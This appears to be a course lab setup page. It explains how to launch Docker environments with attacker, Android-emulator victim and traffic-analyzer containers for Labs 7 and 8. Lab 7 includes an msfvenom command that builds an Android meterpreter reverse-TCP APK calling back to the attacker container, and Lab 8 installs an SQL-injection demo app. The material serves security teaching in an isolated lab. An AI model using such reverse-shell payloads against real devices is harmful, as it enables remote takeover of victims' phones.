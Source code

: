 
### Lab 7

In this lab, it contains three containers organized by a `docker-compose` file.

- Compose File: {Download}`lab7/docker-compose.yml`
- Dockerfile(Attacker): {Download}`lab7/Dockerfile`
- Remote(Attacker):  [yangzhou301/lab7](https://hub.docker.com/repository/docker/yangzhou301/lab7)
- Command
  - Start Docker Compose:

```sh
# work in lab7 directory
$ cd lab7
$ docker-compose up -d

# or any directory that includes the `docker-compose.yml`
$ docker-compose up -d -f docker-compose.yml
```
 - Manipulate the Android Emulator (victim container `10.9.0.6`) on [http://localhost:6080](http://localhost:6080)
 - Monitor the traffic in the subnet via Wireshark (analyzer container `10.9.0.8`) on [http://localhost:3000](http://localhost:3000/)
 - Open a shell in the attacker container (`10.9.0.7`) to process the lab

```
$ docker exec -it attacker /bin/bash
```
 - After all jobs are done, terminate all containers by

```
$ docker-compose down
```

Accordingly, change the IP address used in lab instruction, for example:

```
msf> msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.7 LPORT=4444 -f raw -o reverse_tcp.apk
msf> set lhost 10.9.0.7
```

### Lab 8

This lab runs on an android emulator docker all the time.

- Compose File: {Download}`lab8/docker-compose.yml`
- Dockerfile: {Download}`lab8/Dockerfile`
- Remote [yangzhou301/lab8](https://hub.docker.com/repository/docker/yangzhou301/lab8)
- Command:
  - Start the Docker Compose:
```
$ docker-compose up -d -f docker-compose.yml
```
  - Check if the Android emulator runs properly on [http://localhost:6080](http://localhost:6080)
  - Install `sql-inject-demo.apk` on it:

```
$ docker exec -it mobile bash -c "adb install lab8/sql-inject-demo.apk"
```

  - After all jobs are done, terminate all containers by

```
$ docker-compose down
```


